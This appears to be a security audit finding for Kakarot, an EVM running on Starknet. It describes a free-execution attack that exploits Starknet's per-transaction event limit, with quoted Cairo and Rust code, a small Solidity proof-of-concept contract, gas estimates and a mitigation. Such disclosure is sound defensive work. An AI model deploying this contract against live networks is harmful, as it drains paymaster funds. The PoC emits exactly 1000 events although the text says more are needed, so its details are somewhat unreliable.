

# Lines of code

https://github.com/kkrt-labs/kakarot/blob/7411a5520e8a00be6f5243a50c160e66ad285563/src/kakarot/state.cairo#L344


# Vulnerability details


## Impact

An attacker can execute transactions without paying gas by exploiting the mismatch between EVM and Starknet event limits. By crafting transactions that emit more than 1000 events, the attacker can:

- Execute computationally expensive operations for free
- Avoid paying any gas costs as the transaction fails at Starknet level
- The paymaster to cover Cairo steps costs for failed transactions

Please note that:
- The attack is straightforward to implement
- No special permissions required

## Proof of Concept

The vulnerability occurs due to how Kakarot processes events and commits state to Starknet. Key components:

- Event collection without limits:
```cairo
func add_event{state: model.State*}(event: model.Event) {
	assert state.events[state.events_len] = event;

	tempvar state = new model.State(
		accounts_start=state.accounts_start,
		accounts=state.accounts,
		events_len=state.events_len + 1,
		events=state.events,
		transfers_len=state.transfers_len,
		transfers=state.transfers,
	);
	return ();
}
```
[State.cairo:L344](https://github.com/kkrt-labs/kakarot/blob/7411a5520e8a00be6f5243a50c160e66ad285563/src/kakarot/state.cairo#L344)

- State commitment with events 
```cairo
func commit{syscall_ptr: felt*, pedersen_ptr: HashBuiltin*, range_check_ptr}(
	self: model.State*
) {
	.
	.
	// Events
	Internals._emit_events(self.events_len, self.events);
	.
	.
	return ();
}

func _emit_events{syscall_ptr: felt*, pedersen_ptr: HashBuiltin*, range_check_ptr}(
	events_len: felt, events: model.Event*
) {

	.
	.
	tempvar data_len = is_nn(300 - event.data_len) * (event.data_len - 300) + 300;

	emit_event(
		keys_len=event.topics_len, keys=event.topics, data_len=data_len, data=event.data
	);

	_emit_events(events_len - 1, events + model.Event.SIZE);
	return ();
}
```
[Starknet.cairo:L53](https://github.com/kkrt-labs/kakarot/blob/7411a5520e8a00be6f5243a50c160e66ad285563/src/backend/starknet.cairo#L53), [Starknet.cairo:L244](https://github.com/kkrt-labs/kakarot/blob/7411a5520e8a00be6f5243a50c160e66ad285563/src/backend/starknet.cairo#L244)


Attack Contract Sample:
```solidity
contract EventAttack {
    event Attack(uint256 indexed id, bytes32 data);
    
    function execute() external {
        // Emit exactly 1000 events to maximize resource usage
        for(uint i = 0; i < 1000; i++) {
            // Each event is 32 bytes to maximize gas usage
            emit Attack(i, keccak256(abi.encode(i)));
        }
        
        // Optional: Add additional expensive computations here
        // They will be executed but never paid for
    }
}
```

Attack Flow:


Cost Estimation:
- Each LOG2 event (1 indexed parameter):
  - Base: 375 gas
  - Topics: 2 * 375 = 750 gas
  - Data (32 bytes): 32 * 8 = 256 gas
  - Per event total: 1,381 gas
- 1000 events: 1,381,000 gas => feasable within the block limit
- All execution is free because state never commits


### Starknet Event Limit Functionality

- Max Emitted Event Per TX
```json
"tx_event_limits": {
        "max_data_length": 300,
        "max_keys_length": 50,
        "max_n_emitted_events": 1000
}
```
[versioned_constants.json:L5](https://github.com/starkware-libs/blockifier/blob/main/crates/blockifier/resources/versioned_constants.json#L5)

- `execute_syscall` for EmitEvent
```rust
 SyscallSelector::EmitEvent => {
                self.execute_syscall(vm, emit_event, self.context.gas_costs().emit_event_gas_cost)
            }
```
[hint_processor.rs:L340](https://github.com/starkware-libs/sequencer/blob/main/crates/blockifier/src/execution/syscalls/hint_processor.rs#L340)

- `emit_event` 

```rust
pub fn emit_event(
    request: EmitEventRequest,
    _vm: &mut VirtualMachine,
    syscall_handler: &mut SyscallHintProcessor<'_>,
    _remaining_gas: &mut u64,
) -> SyscallResult<EmitEventResponse> {
    let execution_context = &mut syscall_handler.context;
    exceeds_event_size_limit(
        execution_context.versioned_constants(),
        execution_context.n_emitted_events + 1,
        &request.content,
    )?;
	.
	.
	Ok(EmitEventResponse {})
}
```
[syscalls/mod.rs:L345](https://github.com/starkware-libs/sequencer/blob/main/crates/blockifier/src/execution/syscalls/mod.rs#L345)

- `exceeds_event_size_limit` 

```rust
pub fn exceeds_event_size_limit(
    versioned_constants: &VersionedConstants,
    n_emitted_events: usize,
    event: &EventContent,
) -> Result<(), EmitEventError> {
    let EventLimits { max_data_length, max_keys_length, max_n_emitted_events } =
        versioned_constants.tx_event_limits;
    if n_emitted_events > max_n_emitted_events {
        return Err(EmitEventError::ExceedsMaxNumberOfEmittedEvents {
            n_emitted_events,
            max_n_emitted_events,
        });
    }
		.
		.
		.
}

```
[syscalls/mod.rs:L320](https://github.com/starkware-libs/sequencer/blob/main/crates/blockifier/src/execution/syscalls/mod.rs#L320)


## Tools Used
Manual Review

## Recommended Mitigation Steps

Add event limit checking during EVM execution to ensure transactions fail during EVM execution, making the attacker responsible for the gas used up to the failure point.


## Assessed type

Other